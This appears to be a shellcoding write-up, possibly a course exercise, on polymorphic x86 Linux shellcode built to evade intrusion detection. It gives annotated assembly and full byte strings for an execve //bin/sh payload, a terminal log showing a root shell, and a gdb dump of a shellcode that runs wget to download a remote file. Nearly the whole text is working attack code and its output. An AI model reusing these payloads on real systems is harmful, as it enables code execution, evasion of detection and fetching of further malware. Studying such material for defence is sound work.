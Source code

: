 Polymorphic version :  
**Size : 37 bytes**
```nasm
    xor    edi, edi
    mul    edi			; set EAX,EDX,EDI to 0
    push   edi                  ; push string terminator
    sub    eax, 0x978CD092      ; EAX => 0x68732f6e
    push   eax                  ; push hs/n
    sub    edi, 0x969DD0D1	; EDI => 0x69622f2f
    push   edi		        ; push ib//
    lea    ebx, [esp]      	; EBX pointer to //bin/sh
    mov    ecx, edx		; ECX set to null pointer
    add    eax, 0x978CD09D	; EAX => 0xb execve syscall number
    sub    dx, 0x7F33		; EDX set to 0x80cd
    push   edx		        ; push int 0x80 opcode
    push   esp
    cdq				; EDX set to 0x00
    ret				; go to "int 0x80" address
```

Original shellcode :
"\x99\x52\x58\x52\xbf\xb7\x97\x39\x34\x01\xff\x57\xbf\x97\x17\xb1\x34\x01\xff\x47\x57\x89\xe3\x52\x53\x89\xe1\xb0\x63\x2c\x58\x81\xef\x62\xae\x61\x69\x57\xff\xd4";

The new shellcode :
"\x31\xff\xf7\xe7\x57\x2d\x92\xd0\x8c\x97\x50\x81\xef\xd1\xd0\x9d\x96\x57\x8d\x1c\x24\x89\xd1\x05\x9d\xd0\x8c\x97\x66\x81\xea\x33\x7f\x52\x54\x99\xc3"

There is no series of two identical bytes, and it is three bytes shorter than original.

```plaintext
root@kali:~# gcc -fno-stack-protector -z execstack shellcode.c -o anti-ids
root@kali:~# ./anti-ids
Payload Length:  36
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

## Remote file Download 

The original code is as follow (gdb dump) :  
**Size : 42 bytes**
```nasm
=> 0x00404040 <+0>:	push   0xb	   ;
   0x00404042 <+2>:	pop    eax	   ; Execve syscall number
   0x00404043 <+3>:	cdq    		   ; edx set to 0
   0x00404044 <+4>:	push   edx	   ; push string terminator	
   0x00404045 <+5>:	push   0x61616161  ; The url of the file to download 
					   ; here 'aaaa'
   0x0040404a <+10>:	mov    ecx,esp	   ; ECX point to the url argument
   0x0040404c <+12>:	push   edx	   ; push string terminator 
					   ; [Useless here push 0x74 will insert nullbytes]]
   0x0040404d <+13>:	push   0x74	   ; t
   0x0040404f <+15>:	push   0x6567772f  ; egw/
   0x00404054 <+20>:	push   0x6e69622f  ; nib/
   0x00404059 <+25>:	push   0x7273752f  ; rsu/  
   0x0040405e <+30>:	mov    ebx,esp     ; EBX point to /usr/bin/wget
   0x00404060 <+32>:	push   edx         ; null pointer
   0x00404061 <+33>:	push   ecx         ; Address of first wget arguments
   0x00404062 <+34>:	push   ebx         ; Address of cmd string
   0x00404063 <+35>:	mov    ecx,esp     ; ECX set to *args
   0x00404065 <+37>:	int    0x80        ; execve("/usr/bin/wget, ["/usr/bin/wget","aaaa"],null)
   0x00404067 <+39>:	inc    eax	   ; Assume that execve return 0 to set exit syscall num
   0x00404068 <+40>:	int    0x80        ; exit()
```
